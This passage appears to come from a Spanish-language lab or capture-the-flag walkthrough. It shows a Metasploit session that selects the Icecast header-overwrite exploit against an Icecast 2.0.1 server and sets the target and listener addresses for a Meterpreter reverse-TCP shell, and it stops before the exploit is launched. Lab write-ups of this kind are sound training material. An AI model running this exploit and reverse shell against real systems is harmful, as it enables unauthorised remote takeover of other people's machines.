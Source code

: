 ```bash
msf6 > search icecast 2.0.1

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/icecast_header
```

Vamos a configurar el exploit con la IP destino y la IP de nuestra máquina.

```bash
msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/icecast_header) > options

Module options (exploit/windows/http/icecast_header):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   8000             yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.100.210  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/icecast_header) > set RHOSTS 10.10.19.146
RHOSTS => 10.10.19.146
msf6 exploit(windows/http/icecast_header) > set LHOST 10.8.17.92
LHOST => 10.8.17.92
```
